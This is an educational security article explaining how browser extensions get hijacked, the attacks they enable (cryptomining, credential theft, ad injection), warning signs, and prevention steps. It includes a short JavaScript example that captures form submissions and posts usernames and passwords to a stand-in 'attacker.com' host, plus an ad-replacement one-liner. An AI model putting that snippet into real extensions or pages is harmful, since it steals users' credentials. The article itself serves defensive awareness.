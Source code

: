 ## Browser Extension Takeovers
Browser extension takeovers **occur when malicious actors exploit vulnerabilities or manipulate browser extensions to gain unauthorized access, install malicious scripts, or hijack browser behavior**. These attacks can result in **cryptocurrency mining, credential theft, and adware injection, impacting user security and privacy**.

## 1. How Browser Extension Takeovers Happen
1. **Malicious Extensions**
  - Attackers create or distribute browser extensions containing malicious code.
  - Example
    - An extension claiming to improve performance but secretly mining cryptocurrency.
2. **Compromised Legitimate Extensions**
  - Attackers take control of a trusted extension via:
    - **Developer Account Hijacking**: Compromising the extension developer’s credentials.
    - **Supply Chain Attacks**: Injecting malicious updates into the extension’s source code.
  - Example
    - The “Copyfish” extension was compromised in 2017 after attackers hijacked the developer’s credentials.
3. **Exploiting Permissions**
  - Extensions often request excessive permissions (e.g., full access to websites, clipboard, or storage).
  - Example
    - Extensions requesting:
```
"permissions": ["*://*/*", "storage", "tabs"]
```

4. **Third-Party Libraries**
  - Extensions may rely on third-party libraries that contain vulnerabilities or backdoors.
5. **Browser Updates**
  - Attackers exploit outdated browsers or extensions not patched for security flaws.


## 2. Types of Attacks Using Browser Extensions

### a. Cryptocurrency Miners
  - Inject scripts that silently mine cryptocurrencies like Monero using the victim’s CPU resources.
  - Impact
    - Slows down system performance.
    - Increases energy consumption.
  - Example
    - A malicious extension injects Coinhive scripts to mine cryptocurrency when the browser is active.

### b. Credential Stealers
  - Extensions with access to input fields, cookies, or browser storage steal:
    - Login credentials.
    - Session tokens.
    - Payment information.
  - Techniques
    - Capturing keystrokes or form submissions.
    - Extracting session cookies for account takeovers.
  - Example
```
document.addEventListener('submit', (e) => {
    fetch('https://attacker.com/steal', {
        method: 'POST',
        body: JSON.stringify({ username: e.target.username.value, password: e.target.password.value })
    });
});
```

### c. Adware Injection
  - Extensions inject malicious ads, pop-ups, or redirect traffic to earn revenue from affiliate networks.
  - Impact
    - Alters legitimate website content.
    - Redirects users to phishing or malware-laden websites.
  - Example
    - Replacing ads on example.com with attacker-controlled ads
```
document.body.innerHTML = document.body.innerHTML.replace(/adnetwork\.com/g, 'attacker-ads.com');
```


## 3. Indicators of Compromised Extensions
1. **High CPU Usage**
  - Sudden spikes in CPU usage, even when idle, could indicate cryptomining.
2. **Unexpected Ads or Pop-Ups**
  - Ads appearing on websites that normally don’t display them.
3. **Unauthorized Behavior**
  - Redirections to unknown websites.
  - Requests for unexpected permissions.
4. **Slow Browser Performance**
  - Compromised or malicious extensions may slow browsing activity due to mining or data exfiltration.
5. **New Unknown Extensions**
  - Extensions you didn’t install appearing in your browser.


## 4. Preventing Browser Extension Takeovers

### a. Limit Extension Permissions
  - **Least Privilege Principle**
    - Only install extensions with minimal permissions necessary for their functionality.
  - **Review permissions like**
    - Access to all sites or Read and change data on all websites.

### b. Use Trusted Extensions
  - Install extensions only from **trusted sources**
    - Chrome Web Store, Mozilla Add-ons.
  - Check user reviews, ratings, and the number of downloads.

### c. Regularly Audit Extensions
  - Periodically review installed extensions and remove unused or suspicious ones.

### d. Enable Automatic Updates
  - Keep both browsers and extensions updated to patch known vulnerabilities.

### e. Monitor Extension Behavior
  - Use tools to analyze extensions:
    - CRXcavator: Audits Chrome extensions for risks.
    - Privacy Badger: Blocks trackers and malicious scripts.

### f. Use Security Solutions
  - Implement security tools that:
    - Detect malicious browser extensions.
    - Prevent unauthorized script execution.

### g. Be Cautious of Developer Abandonment
  - Extensions abandoned by developers may get hijacked and updated with malicious code.


## 5. Example Scenario: Malicious Extension Hijacking
1. Original Scenario
  - User installs a legitimate “ad blocker” extension with 5-star reviews.
2. Attack
  - The attacker compromises the developer’s account and pushes a malicious update.
  - The update includes a script to mine cryptocurrency in the background.
3. Result
  - Users experience high CPU usage and slower system performance.
  - Their browser silently connects to an attacker-controlled mining pool.


## 6. Summary

| Attack Type | Description | Impact |
| ----------- | ----------- | ------ |
| Cryptocurrency Miners | Uses CPU power to mine crypto without user consent. | Slows system, increases energy usage. |
| Credential Stealers | Steals passwords, cookies, and tokens via input monitoring. | Account takeovers, data theft. |
| Adware Injection | Injects ads or redirects traffic to malicious sites. | Alters content, phishing, revenue fraud. |

**Browser extension takeovers pose a significant security risk, enabling attackers to inject miners, steal credentials, or display malicious ads**. By carefully managing permissions, auditing extensions, and staying vigilant about unusual behavior, users and organizations can reduce the risk of extension-related attacks. Security awareness and proper hygiene are key to preventing these takeovers.